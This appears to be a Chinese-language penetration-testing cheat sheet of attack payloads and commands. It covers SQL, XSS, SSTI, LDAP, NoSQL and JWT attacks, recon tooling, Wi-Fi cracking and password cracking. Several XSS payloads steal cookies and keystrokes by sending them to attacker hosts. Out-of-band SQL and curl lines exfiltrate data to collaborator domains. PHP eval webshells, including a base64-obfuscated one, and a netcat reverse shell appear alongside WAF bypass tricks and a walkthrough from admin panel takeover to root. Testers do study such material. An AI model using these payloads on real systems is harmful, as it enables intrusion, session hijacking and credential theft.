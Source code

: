 # 思路
信息收集    漏洞利用    权限提升    权限维持    内网渗透    横向移动    跨域攻击    痕迹清理
漏洞
验证码漏洞checklist
1验证码爆破
2验证码回显    response响应包内容
3验证码与手机号码未绑定认证关系 A接收到的验证码，可以用来认证B
4修改返回包绕过验证码
5验证码转发    对个手机号码发送验证码
6任意验证码登录
7验证码为空登录
8固定验证码登录
9验证码轰炸
# payloads
'
"
`
')
'))
")
"))
`)
`))
' or 1=1 -- -
' and 1=1 -- -
' and ''='
+AND+1=1'+ — +- 
+AND+1=1'+%23[#]
xxx' union select 1,2,3; -- -
XOR(if(now()=sysdate(),sleep(5),0))XOR
"XOR(if(now()=sysdate(),sleep(5),0))XOR"
'XOR(if(now()=sysdate()%2Csleep(15)%2C0))XOR'Z
XOR(if(now()=sysdate(),sleep(9),0))XOR\"Z
XXX'|(IF((now())LIKE(sysdate()),SLEEP(6),0))|'XXX
' || (select '') || '
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
{{7*7}}
{{url_for.__globals__.os.popen('ls').read()}}
"><svg/onload=prompt(1)>
<script>javascript:alert(1)</script\x0D>
<img src/onerror=prompt(1)>
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
<iframe %00 src=\"javascript:prompt(1)\"%00>
<iframe %00 src= javascript:fetch(\"//XXXXXXXXXXXXXXXXXXXXXXXXXXXXX.burpcollaborator.net/?param=\"+document.cookie)  %00>
"><svg onlod=confirm()>
--><svg onload=alert(document.domain)>
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``¹//
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)> url encode + url encode
"><img src=x onerror=alert(document.cookie)>
javascript:alert("proof of concept")
<href="url" onmouseover=alert(1)>
<iframe %00 src=\"javascript:prompt(1)\"%00>
</script><script>alert(document.domain)</script> url encode
javascript:var{a:onerror}={a:alert};throw%20document.cookie url encode
<?xml version="1.0"?><!DOCTYPE foo SYSTEM "http://XXXXXXXXXXXXXXXXXXXXXXXXXXXXX.burpcollaborator.net/">

Recon 资产收集
收集子域 sublist3r — subfinder — asset finder — amass - gobuster - bbot
amass enum -d target.com -silent -o out.txt
subfinder -d target.com -silent -all -o out.txt
bbot -t target.com -f subdomain-enum web-basic -m portscan nuclei --allow-deadly --force
sublist3r -d nasa.gov -o subdomains1.txt
gobuster dns -d target.com -t 100 -w ../../xxx.txt -o out.txt
联合
subfinder -d target.com -silent | waybackurls | httpx -silent -sc | nuclei -o out.txt
naabu -list domains.txt -top-ports 1000 -silent -o naabuout.txt | httpx -silent -o httpxout.txt | aquatone -silent -out capitaloneout
google dork
site:target inurl:*.php?/*.jsp?  保存成.html文件并提取出全部url地址
cat target.html | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u | grep -E "target.com"
过滤活动域名
httpx -l subdomains.txt -o urls.txt
cat subdomains.txt subdomains1.txt | sort | uniq > merged_subdomains.txt
cat subdomains.txt | httprobe | sort -u >> list.txt
收集API 节点
cat urls.txt | httpx -title -sc -server -fr -td -o out.txt
httpx -title -wc -sc -cl -ct -location -web-server -asn -o alive-subdomains.txt
cat list.txt | httpx -title -sc -server -fr -td -o out.txt
cat "toyota.com" | gau --threads 5 >> Enpoints.txt
cat httpx.txt | katana -jc >> Enpoints.txt
katana -u target.txt -jc -kf -aff -c 100 -cs domain.com -hl -d 9 -jsl -ps -pss waybackarchive,commoncrawl,alienvault -o out.txt
python3 lostsec.py -u target.com -p payloads/xor.txt -t 5
paramspider -d target.com -o urls.txt
cat urls.txt | sed 's/FUZZ//g' > final.txt
python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5
echo target.com | gau --mc 200 | urldedupe > urls.txt
cat urls.txt | grep -E ".php|.asp|.aspx|.cfm|.jsp|.html|.htm" | grep '=' | sort > output.txt
cat output.txt | sed 's/=.*/=/' > final.txt
python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5
echo target.com | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | urldedupe > output.txt
katana -u target.com -d 5 | grep '=' | urldedupe | anew output.txt
cat output.txt | sed 's/=.*/=/' > final.txt

API/节点 去重
cat Enpoints.txt | uro >> Endpoints_F.txt
API/节点规则匹配 XSS, SQLi, SSRF, etc
cat Endpoints_F.txt | gf xss >> XSS.txt
XSS自动化工具
cat XSS.txt | Gxss -p khXSS -o XSS_Ref.txt
dalfox file XSS_Ref.txt -o Vulnerable_XSS.txt


Tool #1 — Katana
Using a depth-first strategy: katana -u to-crawl.txt -d 5 -jc -ct 1h -aff -fx -s depth-first -o katana-df.txt
Crawl with a breadth-first strategy: katana -u to-crawl.txt -d 5 -jc -ct 1h -aff -fx -s breadth-first -o katana-bf.txt
Using a headless mode: katana -u to-crawl.txt -d 5 -jc -ct 1h -aff -fx -headless -o katana-headless.txt
Tool #2 — Hakrawler
cat to-crawl.txt | hakrawler -d 5 -dr -insecure -t 10 -timeout 3600 | tee hakrawler.txt
Tool #3 — Gospider
gospider -S to-crawl.txt -q -d 5 -c 10 --sitemap --no-redirect -o gospider.txt

https://search.censys.io/
https://www.shodan.io/
Shodan Dork：
Ssl.cert.subject.cn:"sub.target.com" 200
httpx with the following flags: -sc -td -cl


google / duckduckgo.com
site:blog.intigriti.com csrf
site:pentester.land csrf
site:book.hacktricks.xyz csrf
site:cloud.hacktricks.xyz csrf
site:hackerone.com/reports csrf
site:infosecwriteups.com csrf
site:weekly.infosecwriteups.com csrf
site:portswigger.net Cheatsheet
site:website.com intext:Login OR intext:Register or intext:Create Account

# nmap
nmap -sn ip/idor
nmap -sS/-sT --min-rate 10000 --max-retries 1 --max-scan-delay 20ms -T4 --open -p- ip -oA path
nmap -sU --top-ports 20 ip -oA path
nmap -sU -sV --version-intensity 0 --min-rate 10000 -p- ip -oA path
grep open path | awk -F '/' '{print $1}' | paste -sd ','
nmap  -sT -sV -sC -O -p+ports ip -oA path
nmap -sS/-sT --script=vuln -p+ports ip -oA path
nmap -sU --top-ports 20 ip -oA path

# service
smb--445---smbmap/smbclient/crackmapexec/enum4linux
nfs--------showmount -e  ip  / mount -t nfs ip:/path  filedir 
ftp---21-----anonymous
rsync---873----    rsync -a "rsyn://99.99.99.99/"  check any directories or files
    rsync 99.99.99.99::gentoo/etc/passwd .
    rsync <destination> <source>
    mkdir .ssh && touch .ssh/authorized_keys
    rsync -r ./.ssh/ 192.168.129.126::fox/.ssh
    rsync -r 192.168.129.126::fox
    


# NO nmap 
linux/bash script
for i in {1..254};do ping -c 1 -w 1 192.168.1.$i | grep from;done

# bypass
example.com  403   dig example.com cname xxxxx.xxxx.com  cname域名/file  bypass 限制


#
![安全编码的输入清理技术](https://github.com/isecren/Security/assets/7948479/6b619965-6874-4d95-a5a0-c0a42f2dc605)

# HTTP 主机标头注入攻击
1提供任意主机标头
2注入重复的 Host 标头
3添加换行
4注入主机覆盖标头
5提供绝对 URL

# wifi crack   aircrack-ng工具包
airmon-ng    airmon-ng <start|stop|check> <interface> [channel or frequency]
airodump-ng  interface
airodump-ng --bssid 28:EF:01:35:34:85 -c 6 --write wpa-01 wlan0
aireplay-ng -0 100 -a 28:EF:01:35:34:85 -c 28:EF:01:23:46:68 wlan0
hashcat 破解wifi密码
.cap文件转hashcat格式.hc22000  https://hashcat.net/cap2hashcat/
hashcat –m 22000 wpa-01.hc22000 rockyou.txt
haschcat –m 2200 –a 3 wpa-01.hc22000 ?l ?l ?l ?l ?l ?l ?l ?l ?l ?l


# Tools
nikto
burpsuite
git-dumper  git-dumper http://example.com/.git/ 输出
Weevely - 武器化的 Web shell  weevely generate <password> <path>/weevely <URL> <password> [cmd]

"><img src=x onerror=alert(document.domain)>{{7*7}}'
User-Agent: () {:;}; /usr/bin/nslookup $(.whoami).myserver.com (It’s used to exploit shellshock vulnerability)

# wordpress
cmsmap -s http://www.domain.com -t 2 -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0"
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url http://www.domain.com [--plugins-detection aggressive] --api-token <API_TOKEN> --passwords /usr/share/wordlists/external/SecLists/Passwords/probable-v2-top1575.txt #Brute force found users and search for vulnerabilities using a free API token (up 50 searchs)
#You can try to bruteforce the admin user using wpscan with "-U admin"

Gau

amass enum -active -d $1 -brute -w ~/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -o amass.txt
HTTP/HTTPS
cat amass.txt | httpx | aquatone -out aqua_$1
IP
cat amass.txt | aquatone -ports xlarge -out aqua_$1
nuclei -l aqua_$1/aquatone_urls.txt -t ~/nuclei-templates -es info -o nuclei_$1.txt
nuclei -u xxx.com -ss host-spray -dast
dnsrecon -d domain.com -t axrf # 区域传送漏洞

httpx 进行HTTP测试
httpx -l allDomains.txt -o liveDomains.txt 
httpx -l liveDomains.txt -srd subsScreens -ss  屏幕截图

模糊测试
当我开始对目录进行模糊测试时，不管状态代码是 200,404 还是 403。大多数时候 Gems 都在这些页面内。
ffuf 工具
模糊测试列表：
/jenkins/script

paramspider/arjun 参数测试
eyewitness 检测url，自动屏幕截图
waybackurls -dates http://xxxx/xxx.php   存档数据
SQL 工具
sqlmap/ghauri
python sqlmap.py -u "https://www.target.com/" --skip-waf --tamper="between,randomcase,space2comment" -v 3 --random-agent --tor
sqlmap -u testphp.vulnweb.com --random-agent --crawl=3 --forms --hostname --current-db --smart



# SQL  PayloadsAllTheThings
'
"
`
')
'))
")
"))
`)
`))
oracle -- 
mssql -- /*comment*/ 
mysql -- /*comment*/ #    
postgresql -- /*comment*/ 
各种字符串连接方法 判断数据库类型
oracle 'hel'||'met'  
mssql 'hel'+'met'  
mysql 'hel' 'met'  concat('hel','met')  
postgresql 'hel'||'met'
oracle  substr('string',4,2)  
mssql/mysql/postgresql  substring('string',4,2)

' or 1=1 -- -
' and 1=1 -- -
' and ''='
+AND+1=1'+ — +- 
+AND+1=1'+%23[#]
xxx' union select 1,2,3; -- -
XOR(if(now()=sysdate(),sleep(5),0))XOR
'XOR(if(now()=sysdate()%2Csleep(15)%2C0))XOR'Z
XOR(if(now()=sysdate(),sleep(9),0))XOR\"Z
XXX'|(IF((now())LIKE(sysdate()),SLEEP(6),0))|'XXX
' || (select '') || '
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'

database
Oracle ==> SELECT banner FROM v$version
Microsoft SQL Server ==> SELECT @@version
PostgreSQL ==> SELECT version()
MySQL ==> SELECT @@version
' UNION SELECT null,SUBSTRING(@@version,1,200) LIMIT 0,1 — MySQL version

' UNION SELECT null,SUBSTRING(@@version,1,200) WHERE row = 1 — MS SQL version

' union select null,substr(banner,1,200) from v$version%20 where rownum=1 — Oracle version

' UNION SELECT null,SUBSTRING(version(),1,200) LIMIT 1 — PostgreSQL version

MySQL & MSSQL:       ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,1))='4'
                    ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,2))='5$$'
Oracle:              ?lugu=316+AND+(SELECT+SUBSTR(version(),1,1)+FROM+DUAL)='4'
                    ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,2))='5$$'
PostgreSQL:          ?lugu=316+AND+(SELECT SUBSTRING(version(), 1, 1) = '4'
                    ?lugu=316+AND+(SELECT+SUBSTRING(@@version,1,2))='5$$'
INFORMATION_SCHEMA.SCHEMATA ：是存储数据库元数据的系统目录表。
SCHEMA_NAME ：是该表中存储数据库名称的列。
LIKE 'a%' :是过滤数据库名称的条件，仅返回以字母“a”开头的数据库名称。
AND + ( SELECT + 1 + FROM + INFORMATION_SCHEMA.SCHEMATA + WHERE + SCHEMA_NAME + LIKE + '$a$%' ) %3d1  intruder
SELECT table_name FROM information_schema.tables WHERE table_schema =  'your_database_name' ;
+ AND + ( SELECT + 1 + FROM + INFORMATION_SCHEMA.TABLES + WHERE + TABLE_SCHEMA + %3d + 'your_database_name' + AND + TABLE_NAME + LIKE + 'w%' ;) %3d1


# ssti
{{7*7}}
{{url_for.__globals__.os.popen('ls').read()}}
绕过单引号过滤器
有效负载： {{url_for.__globals__.os.popen(request.headers.hack).read()}}


#权限提升
history
search info:grep -R -i pass /home/* 2>/dev/null
bash version < 4.3
shellshock  check cmd:
env x='() { :; };echo "it is vulnerable"' bash -c date




# out of band 带外数据
select load_file(CONCAT('\\\\',(SELECT+@@VERSION),'.',(SELECT+user),'.',(SELECT+password),'.','v950miufeuuf5qgjf4bzv77v0m6du9iy.oastify.com\\vfw'))
curl `whoami`.yeg3rlzijxziatlmk7g20acy5pbgzbn0.oastify.com
curl $(whoami).yeg3rlzijxziatlmk7g20acy5pbgzbn0.oastify.com



# XSS bypass waf
Basic XSS
<script>alert('XSS');</script>
Encoding and Obfuscation
%3Cscript%3Ealert(%27XSS%27)%3B%3C%2Fscript%3E
Bypassing Advanced Filters with Polyglots
jaVasCript:/*-/*`/*\\\\`/*'/*"/**/(/* */oNcliCk=alert())//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!> <sVg/<sVg/oNloAd=alert()//>\\\\x3e


<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
<iframe %00 src=\"javascript:prompt(1)\"%00>
<iframe %00 src= javascript:fetch(\"//XXXXXXXXXXXXXXXXXXXXXXXXXXXXX.burpcollaborator.net/?param=\"+document.cookie)  %00>
"><svg onlod=confirm()>
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``¹//
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)> url encode + url encode
"><img src=x onerror=alert(document.cookie)>
<href="url" onmouseover=alert(1)>
<iframe %00 src=\"javascript:prompt(1)\"%00>
</script><script>alert(document.domain)</script> url encode
javascript:var{a:onerror}={a:alert};throw%20document.cookie url encode

尝试：
try URL encode
try double URL encode.
try triple URL encode.
try base64 encode.
文件上传 XSS---修改文件名参数以包含 XSS 负载
a) <img src=x onerror=alert('XSS')>.png
b) "><img src=x onerror=alert('XSS')>.png
c) "><svg onmouseover=alert(1)>.svg
d)<<script>alert('xss')<!--a-->a.png



# 原型污染是一种javascript漏洞，攻击者可以将任意属性添加到全局变量原型，然后这些属性可能被用户定义的对象继承。

# jwt 
bypass 绕过验证
CVE-2023-30845 通过使用 X-HTTP-Method-Override 请求标头绕过 JWT 检查！
curl http://example.com/api -X POST -H 'X-HTTP-Method-Override: PUT' -H 'Content-Type: application/json' --data '{"username":"xxx"}'
未经验证的签名--忘记验证签名了
越权漏洞等

签名有验证缺陷--NONE算法 alg->none
jwt_tools.py jwt-token -X a

破解弱共享密码
注意：必须是HMAC-SHA算法
jwt_tools.py jwt_token -C -d jwt_secrets.txt
echo jwt_token > jwt_file
hashcat -a 0 -m 16500 jwt_file  jwt_secrets --force

算法混淆攻击 RSA->HS256
构造jwt
jwt editor keys插件
1、获取公钥 public key
/jwks.json  /.well-known/jwks.json等
2、JWT Editor Keys 点击 NEW RSA KEY，复制jwks.json种key的值到jwk框，点击ok
copy public key as PEM 对其base64编码
3、点击new symmetric key 点generate 并替换K的值为pem编码后的值
4、回到请求体jwt，进行sign签名

标头参数住入
Jwk 注入
jwt editor keys插件
New rsa KEY generate
回到请求体jwt，attack embedded jwk
Jku 
jwt editor keys插件
1、生成一个RSA密钥 copy public key as jwk
2、创建一个webserver URL http://xxxx.xxx/jwk
3、回到请求体jwt，修改kid，添加jku,替换sub
kid 注入
jwt editor keys插件
1、生成new symmetric key generate
2、对称密钥 k值覆盖为null (base64编码)
3、回到请求体jwt，修改kid的值为../../../../../../dev/null
4、修改sub,点击 sign 签名


# LDAP
payload:")(cn=))(|(objectClass=*"
"(&(cn=))(|(uid=))(|(objectClass=*))(userpassword=[password])"
login bypass
user=*
password=*
--->(&(user=*)(password=*))
user=*)(&
password=*)(&
-->(&(user=*)(&)(password=*)(&))
user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed
username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSE then the user is admin and the password check is True.
username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))

# webshell
.htaccess文件
AddType指定
AddType application/x-httpd-php .png
将.png当作php文件解析
木马
上传文件，php扩展文件.phtml .phar .ptar
<?php phpinfo(); ?>
<?php 
@eval($_POST['cmd']);
?>
<?php
@eval($_REQUEST['cmd']);
?>
<?php system("whoami"); ?>
<?php
file_put_contents("shell.php","<?php @eval($_POST['cmd']); ?>");
file_put_contents("shell.php",base64_decode("PD9waHAgCkBldmFsKCRfUE9TVFsnY21kJ10pOyAKPz4="));
?>

#  Kubernetes 
使用kubectl get services --all-namespaces列出集群中的所有服务，然后查找类型为“LoadBalancer”或“NodePort”的服务。
如果您的集群中设置了 Ingress 控制器，您也可以使用此命令kubectl get ingress --all-namespaces
获取Kubernetes 集群中公开的服务
这种错误配置允许通过向节点的 IP 和端口组合发送请求来与反向代理直接通信，完全绕过负载均衡器
curl -i -s -k -X $’GET’ \
-H $’Host: service-1.kube.com’ \
$’https://<NODE-IP:8888>/'
发现敏感服务
1、crt.sh   "k8s.%.com"
2、github
3、端口扫描 Kubernetes 集群中可能会开放以下端口（取自Kubernetes 研讨会演示）：
4、探索网络插件  cAdvisor 
查找集群配置错误
当 Kubernetes API 暴露于远程交互时，此部分非常有用。
1. 检查API服务器的匿名访问
2. 检查ETCD匿名访问
如果ETCD可以匿名访问，您可能需要使用etcdctl工具。以下命令将获取存储的所有密钥：
etcdctl –endpoints=http://<MASTER-IP>:2379 get / –prefix –keys-only
3、检查Kubelet（只读端口）信息暴露情况

# bypass waf
alert = window[“al”+“ert”]。通过将“alert”关键字分成两部分并使用串联，我们可以避开 WAF 可能使用的简单关键字过滤器
用这个 `` 绕过括号 ()
用正斜杠 (/) 替换空格。此更改有助于避免 WAF 过滤器检测到可能寻找特定字符组合的情况
对符号进行编码是绕过 WAF 保护的重要组成部分。以下是该技术中使用的符号编码：
< 编码为 %3c
> 编码为 %3e
“ 编码为 %22
[ 编码为 %5b
] 编码为 %5d
` 编码为 %60
未编码有效负载：<svg/onload=window[“al”+”ert”]`1337`>

# IDOR 不安全直接对象引用
需要两个账号进行测试

# 敏感信息泄露
1、发现敏感信息-key
2、进行 Google 搜索 使用键名后跟术语“api docs curl”进行 Google 搜索，发现API接口

# SSTI 
payload: {{7*7}} 得到结果49 证明存在
读取etc/passwd  {{system('cat /etc/passwd')}}

路径遍历的根本原因是缺乏路径规范化
os.path.normpath(path).startswith("/app/resources")
注入漏洞的根本原因在于将数据视为代码
将数据与代码分离并对输入执行上下文转义。这种技术的一个主要例子是参数化查询。它隔离数据库查询的输入并执行转义




# 源码审计
SonarQube 这样的工具
XSS:
grep -Ri "\$_" . | grep "echo"
grep -Ri "\$_GET" . | grep "echo"
grep -Ri "\$_POST" . | grep "echo"
grep -Ri "\$_REQUEST" . | grep "echo"

Command execution:
grep -Ri "shell_exec(" .
grep -Ri "system(" .
grep -Ri "exec(" .

Code execution:
grep -Ri "eval(" .
grep -Ri "assert(" .
grep -Ri "preg_replace" . | grep "/e"

SQL Injection:
grep -Ri "\$sql" .
grep -Ri "\$sql" . | grep "\$_"

RFI/LFI:
grep -Ri "file_include" .
grep -Ri "include(" .
grep -Ri "require(" .
grep -Ri "include_once(" .
grep -Ri "require_once(" .
grep -Ri "require_once(" . | grep "\$_"

# nosql
{"username":"carlos","password":{"$ne":""},"$where":"Object.keys(this)[0].match('^.{§0§}§a§.*')"}
{"username":"carlos","password":{"$ne":""},"$where":"Object.keys(this)[1].match('^.{§0§}§a§.*')"}
{"username":"carlos","password":{"$ne":""},"$where":"this.resetToken.match('^.{§0§}§a§.*')"}



import pty
pty.spawn("/bin/bash")
pe 提权
suid 
ps -aux | grep root
<?php system("nc ip port -e /bin/bash")?>
hashcat / john the ripper
hashcat -m 0 hashcat.txt rockyou.txt  字典攻击
hashcat -a 3 -m 0 hashcat.txt ?a?a?a?a?a?a  蛮力破解 6个小写字母
hashcat -m 0 hashcat.txt rockyou.txt -o crack_password.txt 输出到文件crack_password.txt
flipper zero 一款小型手持设备，将各种硬件工具的功能整合到一个口袋大小的小工具中。
flipper zero 多协议支持  rfid nfc 红外 蓝牙
web缓存中毒/缓存欺骗
缓存位于服务器和用户之间，它保存特定请求的响应
URL: /MyAccount;var1=val → Path: /MyAccount

URL: /hello;var=a/world;var1=b;var2=c → Path: /hello/world
URL: /MyAccount.html → Path: /MyAccount (default HTML view)

URL: /MyAccount.css → Path: /MyAccount (CSS view or error if not present)

URL: /MyAccount.aaaa → Path: /MyAccount (default HTML view)
URL: /MyAccount%00aaa → Path: /MyAccount
Rule: rewrite /user/(.*) /account/$1 break;
URL: /users/MyAccount%0aaaa → Path: /account/MyAccount
Detecting origin delimiters
Detecting cache delimiters
GET /static-endpoint<DELIMITER><Random>
"/myAccount%3Fparam" → "/myAccount?param"
/home/index → /%68%6f%6d%65%2f%69%6e%64%65%78
GET /home/index?cacheBuster

GET /aaa/../home/index?cacheBuster or GET /aaa\..\home/index?cacheBuster
![image](https://github.com/user-attachments/assets/7cf1e8db-3ad5-415d-a9c5-9dc6e25a4c99)
![image](https://github.com/user-attachments/assets/d5873bcd-44ad-45ba-9966-91bcb18bb117)
![image](https://github.com/user-attachments/assets/2385c2b3-df86-4b2b-a8fc-078e71beebe9)
![image](https://github.com/user-attachments/assets/86d31c2d-5676-412f-92bf-c73bb98b351a)
/static
/assets
/wp-content
/media
/templates
/public
/shared
GET /<Dynamic_Resource><Delimiter><Encoded_Dot_Segment><Static_Directory>
![image](https://github.com/user-attachments/assets/a5f1626c-9105-4a5f-bf4c-7c09bfb4a5ca)
GET /<Static_Directory><Encoded_Dot_Segment><Dynamic_Resource>
![image](https://github.com/user-attachments/assets/a068ae91-9d6d-46a2-8910-311a3d971117)
![image](https://github.com/user-attachments/assets/d5fa6590-6946-4ee6-95ca-7e483270e8dd)
GET /<Dynamic_Resource><Delimiter><Encoded_Dot_Segment><Static_File>
![image](https://github.com/user-attachments/assets/43cdadf2-26d3-4ab6-a9b1-23c550ee195a)
GET /<Backend_Path><Path_Traversal><Poisoned_Path>
![image](https://github.com/user-attachments/assets/4c14ebae-5b48-4671-a2bd-6b4f5d8b5ae7)
GET /<Backend_Path><Delimiter><Path_Traversal><Poisoned_Path>
![image](https://github.com/user-attachments/assets/3f4db0b1-b0bb-40c8-a2af-063d4b97bffb)
![image](https://github.com/user-attachments/assets/1adc4181-57d1-43da-8a7b-195e31a5d7e7)
GET /<Poisoned_Path><Front-End_Delimiter><Path_Traversal><Backend_Path>



burp suite param miner 
find 未键入的标头
x-forwarded-host: burpclist html注入
nmap 信息收集
gobuster dir -u url -w medium.txt
源代码  javascript
默认密码  admin admin admin password
cms exploit-db 找cms漏洞
github 找是否开源  分析源代码 和配置文件
mysql -u user -p password -h ip
找到管理后台的用户名和密码 更新管理员的密码为自己的密码
使用用户名和新的密码登陆管理后台
在利用exploit-db中的漏洞上传php reverse shell
攻击机上nc -lnvp port  获取web shell
pe 提权
python3 -c 'import pty;pty.spawn("/bin/bash")'
sudo -l 列出当前用户可以提升的权限运行的允许的命令
all:all all
sudo /bin/sh
whoami
root
邀请新成员业务逻辑
错误配置 在用户接受邀请之前，成员数量不会增加 我们可以先将邀请链接发送给10位成员，然后接受所有成员
无计划用户可以邀请成员
拦截将可以邀请用户的API信息修改成普通用户的，发送成功，邀请用户成功
创建浏览器配置文件时的竞争条件
burp suite turbo intruder  添加一个随机位置作为有效载荷位置并增加线程
低权限用户可以通过API查看工作区数据  越权
原始IP地址泄露造成绕过防火墙
wazuh开源安全信息和事件管理工具（SIEM）
aws/s3存储桶的子域
subfinder 侦察子域工具
subzy 检查子域名签名 aws情况下 签名将是指定的存储桶不存在

john the ripper 多功能开源密码破解工具 旨在通过各种攻击方法破解弱密码
john hashed_passwords.txt
john --wordlist=单词列表文件 密码文件
john --incremental 密码文件
john --wordlist=单词列表文件 --rules 密码文件
john --wordlist=rockyou.txt hashed_passwords.txt
john --incremental hashed_passwords.txt
john --wordlist=rockyou.txt --rules hashed_passwords.txt
dos 登陆部分 password 长度  长密码 10000 在服务器上计算密码的哈希值 
for x in range(50000,500000,10000):
    print("a"*x)
判断响应时间是否存在延迟
其它地方
注册页面 长密码
忘记密码 长密码
修改密码 长密码
更改密码 长密码
google cloud armor 是web应用防火墙
pdf html 注入中ssrf的利用
ssrf完全读取和盲读取
hydra
http-post-form
http-get-form
hydra -l 用户名 -P 密码列表 ip/url http-post-form "/登录页面地址:登录请求:F=错误消息"
hydra -l 用户名 -P 字典 ip -t 4 ssh
wdms web的数据主控系统 先进的中间件
<svg/onload=alert(document.location)>


#  grafana 漏洞
http://x.x.x.x:3000/api/plugins?embedded=0


# graphql 漏洞
内省滥用
发送自省查询
query {
  __schema {
    types {
      name
      fields {
        name
      }
    }
  }
}

query {
  user(id: "invalid") {
    name
  }
}

query {
  adminUsers {
    id
    email
  }
}


# webpack js api
https://github.com/rtcatc/Packer-Fuzzer.git
-t adv   高级版


